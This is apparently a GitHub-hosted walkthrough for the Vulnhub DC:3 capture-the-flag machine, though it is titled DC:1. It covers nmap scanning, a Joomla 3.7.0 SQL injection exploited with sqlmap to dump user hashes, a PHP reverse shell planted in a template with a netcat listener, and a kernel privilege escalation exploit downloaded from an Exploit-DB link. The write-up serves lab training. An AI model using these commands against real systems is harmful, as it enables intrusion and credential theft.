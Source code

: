 # DC:1 CTF Walkthrough (Vulnhub) 

###### <p align="center"> *This is official repository maintained by me*</center> </p>
###### <p align="center"> *[yigitdrbk](https://www.instagram.com/yigitdrbk/) *</center> </p>

Dc:3 is a CTF created by DCAU. You can find the technical information about this CTF on the Vulnhub page. First of all, make sure to download and install the correct OVA file from Vulnhub. (https://download.vulnhub.com/dc/DC-3-2.zip).

As mentioned in the description on the Vulnhub page, it is similar to beginner CTFs, but it requires knowledge of Linux and penetration testing tools like sqlmap , netcat and nmap.

## 1-Recon
After setting your machine’s IP to work on your network, you’re ready to scan. If you can’t reach your machine from another virtual machine or your own computer, you should check your VirtualBox network settings. If you’re trying to reach your machine from another VirtualBox instance, both machines’ network settings should be set to Bridged Adapter or NAT Network. Once that’s configured, you’re ready to start scanning.

To find an IP address on the same network, we can use Nmap or Netdiscover to scan.

```bash
nmap -sn 10.0.2.0/24 or netdiscover -r 10.0.2.0/24
```

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*kGwQw0OZ-z3KaE0qCHMbYg.png "DC3")

If you are not sure if this is Ctf machine ip or your ip , just run ifconfig. I make sure this is my ip now I can scan ports, search for directories, view the source page, etc. I started with Nmap, but you can also use Rustscan to quickly find open ports.

```bash
nmap -p- -vv <Machine-Ip> -oN openports
```

Also i checked source code but there was nothing important. After finding the open ports, I performed a script scan and a version scan. Additionally, scanning for vulnerabilities is important at this stage.

```bash
nmap -PN -sS -sV --script vuln -p 80 <Machine-Ip> -oN finalscan
```
![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*sxzrOCgpZUy2-SUi57b19w.png "DC3")

Only port 80 is running an Apache HTTPD 2.4.18 server. During my scan, I found some suspicious folders, so there was no need to use tools like Dirsearch or Dirb

Importantly, I discovered a Cve related to an SQL injection vulnerability in this Joomla version(3.7.0). Joomla is a Cms, similar to WordPress or Drupal.

Since Drupal was on DC:1, I had some prior knowledge of CMS platforms.

Afterward, I visited the website, where there was only one note.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/0*DltvuQgyCsY71V3Z.png "DC3")

I tried the admin directory I found in the Nmap script scan. The administrator directory also had a login panel. Since I knew about the SQL injection vulnerability, I used SQLmap.

## 2- Exploitation

First, I tried msfconsole and searched for Joomla 3.7.0. There was an exploit available, but it didn’t work for some reason. Next, I searched for Joomla 3.7.0 on searchsploit and found the vulnerable URL. I replaced localhost with my CTF machine’s IP address.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*dPWMC75jkVxW4taJ1GIKXQ.png "DC3")

```bash
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
The -m parameter in Searchsploit copies the exploit’s text file to your directory. After I found the vulnerable URL and modified it, I tried to run SQLmap. Since I wasn’t familiar with SQLmap, I did some research and discovered that I needed to find the table names first, which I would use later.

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
The above command’s result gave me 6 table name.

```bash
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| name     | non-numeric |
| email    | non-numeric |
| id       | numeric     |
| params   | non-numeric |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+
```
Then, I tried to enumerate the #__users table using SQLmap. My goal was to gather the users and their passwords with the command below:

```bash
sqlmap -u "http://10.0.2.12/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' -C name,password --dump
```
![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qInxXcDo6B764ba-luSqJA.png "DC3")

Now I have admin hash. I cracked with john. It’s too easy to do. Just write your hash into a file and run the “ john <file>” command. As below :

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*q8EwThdf3juKA-_jsyXkRw.png "DC3")

With the password snoopy, I tried to log in to the administrator directory. I successfully accessed the admin panel of the CMS.

I edited the index.php file from the templates page, which was a bit challenging to find. I copied the entire index.php code from the website and replaced it with a PHP reverse shell. The PHP reverse shell can be found in the /usr/share/webshells/php directory. If you can’t find it on your machine or if you’re not using Kali, you can simply search for it on the internet.

Don’t forget to modify your payload; your IP and port must be correct. I started a netcat session with rlwrap so I could use my previous commands.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*G21jHVvANo257faztUmS1g.png "DC3")

```bash
rlwrap nc -lvnp 1234
```
I used curl command to run index.php file but it was not necessary , you can just visit the page on browser.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Basic shell commands to get a more proper shell. And now it’s time to privilege our escalations.

## 3- Privilege escalation

There was nothing on the machine to privilege escalation so i checked what am i using.

![DC3](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ZbOzp_aNOtfc14UXzgF0Nw.png "DC3")

I was using the outdated version of Ubuntu. With some quick resarch on searchsploit i found the report.


![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*aIoqKw6Cb5tU9GizFQ-8zA.png "DC3")

“Searchsploit -m linux/local/39772.txt “ located report to my current directory. But this was just a report thing not a payload. But there was links to payload so i tried to git first.

![DC3](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*VY4s4XUL_tuGal5KOCeugg.png "DC3")

Exploit-DB Mirror: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip

However, the Git link was just a report as well. I tried to use the zip link and downloaded it to my computer. I hosted my computer using the command php -S <myip>:8000 so I could access this zip file through the www-data shell. However, I couldn't access it due to permissions and restrictions. I then attempted to download the zip file directly to the CTF machine, but that didn’t work either.

I noticed the /var/tmp directory, which is a globally writable directory, so I could download my zip file there. I used the following command:

```bash
git clone <above exploit-db link>
```

And i have zip file downloaded. I extracted it and used.

```bash
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
```

And there was the exploit files.

![DC3](https://miro.medium.com/v2/resize:fit:294/format:webp/1*t4cv4eCjc4UCyHDcVx1fEw.png "DC3")

I run the compile.sh file and then run the doubleput file.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*VsyJvE0KOvf4CJykZWr_oQ.png "DC3")

And now I am root so I can cd to root directory and read the flag.

![DC3](https://miro.medium.com/v2/resize:fit:828/format:webp/1*4zqOZ9xigkGWxebWyqR7dw.png "DC3")

Developer / Author: [yigitdrbk](https://www.instagram.com/yigitdrbk/)